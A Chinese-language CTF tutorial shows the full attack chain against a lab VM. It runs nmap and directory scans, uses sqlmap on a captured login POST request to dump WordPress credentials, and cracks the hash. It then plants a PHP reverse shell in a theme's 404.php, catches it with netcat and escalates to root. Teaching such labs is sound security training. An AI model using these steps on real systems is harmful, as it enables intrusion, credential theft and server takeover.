# CTF夺旗入门：P11：9.10：SQL注入（POST） 🚩

在本节课中，我们将学习CTF训练中的一种常见攻击方式——SQL注入。我们将通过一个具体案例，演示如何利用POST参数进行SQL注入，最终获取目标主机的最高权限（root权限）。

## 概述

SQL注入攻击是指攻击者构造特殊的输入作为参数，传入Web应用程序。这些输入会改变原本的SQL语句结构，从而执行攻击者预期的操作。其主要原因是程序没有细致地过滤或过滤不严格用户输入的数据，导致非法数据侵入系统。



**核心概念**：`用户输入` -> `未经充分过滤` -> `拼接入SQL语句` -> `执行非预期操作`

任何用户可以输入的位置都有可能成为注入点，例如在URL中传递的参数（GET请求）以及在HTTP报文中POST传递的参数。

## 实验环境介绍



上一节我们介绍了SQL注入的基本概念，本节中我们来看看具体的实验环境。

*   **攻击机**：Kali Linux，IP地址为 `192.168.1.11`。
*   **靶场机器**：Ubuntu系统，IP地址为 `192.168.1.104`。




我们的目标是：挖掘漏洞，获得主机的最高权限（root权限），最终取得对应的flag值。



## 第一步：信息探测

拿到靶场IP地址后，首先要进行信息探测，了解目标开放了哪些服务。

以下是信息探测的常用步骤：

### 1. 扫描开放端口

我们使用 `nmap` 工具来扫描靶机所有开放的端口。参数 `-T4` 表示使用较快的速度扫描，`-p-` 表示扫描所有端口。

**操作命令**：
```bash
nmap -sS -p- -T4 192.168.1.104
```

扫描过程可能需要一些时间。在等待期间，可以使用 `ping` 命令测试网络连通性：
```bash
ping 192.168.1.104
```

### 2. 详细服务探测

除了扫描端口，我们还可以使用 `nmap` 的 `-A` 参数进行更详细的探测，获取操作系统、服务版本等信息。

**操作命令**：
```bash
nmap -T4 -A -v 192.168.1.104
```

扫描结果显示，目标开放了80端口（HTTP服务）和8080端口（HTTP服务）。这意味着我们可以对Web服务进行进一步探测。

## 第二步：Web目录与敏感文件探测

针对发现的HTTP服务，我们需要探测其目录结构和可能存在的敏感文件。

以下是常用的Web目录探测工具：

*   **Nikto**：用于探测Web服务器上的敏感文件、配置错误和已知漏洞。
*   **Dirb**：通过字典暴力破解Web服务器上的隐藏目录和文件。

**探测80端口**：
```bash
# 使用 Nikto
nikto -h http://192.168.1.104
# 使用 Dirb (新开一个终端)
dirb http://192.168.1.104
```

**探测8080端口**：
```bash
# 使用 Nikto
nikto -h http://192.168.1.104:8080
# 使用 Dirb (新开一个终端)
dirb http://192.168.1.104:8080
```

探测过程中，我们发现了一些关键信息：
1.  80端口存在 `login.php` 登录页面。
2.  80端口存在 `phpmyadmin` 目录（数据库管理界面）。
3.  8080端口运行着一个基于 `WordPress` 搭建的网站。

## 第三步：漏洞扫描与分析

在收集了初步信息后，我们可以使用自动化漏洞扫描器进行辅助探测。这里我们使用 `OWASP ZAP`。

启动ZAP后，对 `192.168.1.104:80` 和 `192.168.1.104:8080` 分别进行“Attack”扫描。扫描结果显示80端口没有高危漏洞，但确认了 `login.php` 登录界面的存在。

手动测试 `login.php` 页面，尝试常用弱口令（如admin/123456）未果。此时，我们怀疑该登录点可能存在SQL注入漏洞。



## 第四步：SQL注入漏洞利用

当自动化工具未发现明显漏洞时，手工测试至关重要。我们将对 `login.php` 的POST请求进行SQL注入测试。



以下是利用 `sqlmap` 进行POST型SQL注入的步骤：



### 1. 捕获登录请求数据包





使用Burp Suite拦截浏览器提交到 `login.php` 的登录请求。
1.  配置浏览器代理指向Burp Suite（如 `127.0.0.1:8080`）。
2.  在Burp Suite中开启代理拦截。
3.  在浏览器登录界面输入任意用户名密码（如admin/123456）并提交。
4.  在Burp Suite中捕获到POST请求，将其内容复制保存为文件，例如 `request.txt`。



### 2. 使用sqlmap进行注入测试

`sqlmap` 是一个自动化的SQL注入工具。我们使用以下命令，利用捕获的数据包进行注入检测。

**操作命令**：
```bash
sqlmap -r request.txt --level=3 --risk=3 --dbs --dbms=mysql --batch
```
*   `-r request.txt`：从文件加载HTTP请求。
*   `--level=3 --risk=3`：使用较高的检测等级和风险等级。
*   `--dbs`：枚举数据库。
*   `--dbms=mysql`：指定数据库类型为MySQL，加快检测速度。
*   `--batch`：使用默认选项，无需人工交互。

### 3. 获取数据库信息

sqlmap成功检测到注入点并列出了数据库。我们发现一个名为 `wordpress` 的数据库，这很可能对应8080端口的WordPress站点。

接下来，我们逐步获取该数据库内的信息：
1.  **枚举表**：`sqlmap -r request.txt -D wordpress --tables --batch`
2.  **枚举字段**：`sqlmap -r request.txt -D wordpress -T wp_users --columns --batch`
3.  **dump数据**：`sqlmap -r request.txt -D wordpress -T wp_users -C user_login,user_pass --dump --batch`

最终，我们获得了WordPress后台的管理员用户名和密码哈希值（例如 `admin` 和 `$P$B...`）。使用在线工具或 `hashcat` 破解该哈希，我们得到了明文密码。





## 第五步：获取WebShell与系统权限

在获取了WordPress后台凭证后，我们的攻击进入了新阶段。

### 1. 登录WordPress后台



访问 `http://192.168.1.104:8080/wp-login.php`，使用破解得到的用户名和密码登录。

### 2. 上传WebShell



在WordPress后台，可以通过编辑主题文件插入恶意代码。
1.  进入 `外观` -> `主题编辑器`。
2.  选择当前主题（如 `Twenty Thirteen`）下的 `404.php` 模板文件。
3.  清空原有内容，粘贴我们准备好的PHP反弹Shell代码。代码需要修改反弹的IP（攻击机IP `192.168.1.11`）和端口（如 `4444`）。
    *   Kali中常用WebShell路径：`/usr/share/webshells/php/php-reverse-shell.php`

### 3. 接收反弹Shell

在攻击机上启动Netcat监听，等待靶机连接。

**操作命令**：
```bash
nc -nlvp 4444
```

然后，访问我们上传的WebShell文件触发连接。访问URL类似：`http://192.168.1.104:8080/wp-content/themes/twentythirteen/404.php`。

此时，Netcat会接收到一个基础的Shell连接。

### 4. 提升终端与权限

接收到的Shell可能功能不全，我们首先将其升级为完全交互式终端。

**升级命令**：
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

接下来尝试提升到root权限。我们尝试使用空密码或之前获得的WordPress用户密码进行切换。

**提权命令**：
```bash
su -
# 输入破解得到的密码
```

成功切换为root用户后，使用 `id` 命令确认权限，然后即可在系统中寻找最终的flag文件。

**确认权限命令**：
```bash
id
# 输出应包含 uid=0(root) gid=0(root)
```

## 总结

本节课中我们一起学习了通过POST型SQL注入获取系统权限的完整流程。我们需要注意以下几个关键点：

1.  **注入点无处不在**：任何用户输入点（如登录框、搜索框）都可能存在SQL注入，不能依赖扫描器而忽略手工测试。
2.  **信息收集是基础**：全面的端口扫描、目录探测和服务识别是发现攻击入口的前提。
3.  **工具结合手工**：自动化工具（如sqlmap, nmap）能提高效率，但深入分析和利用往往需要手动进行。
4.  **攻击链思维**：一次成功的渗透通常是一个链条，从注入到获取数据，再到登录后台、上传WebShell、提权，每一步都不可或缺。



通过这个案例，你应该对SQL注入的危害和利用方式有了更直观的认识。在CTF比赛和实际安全测试中，保持耐心、细致观察、灵活运用各种技术是关键。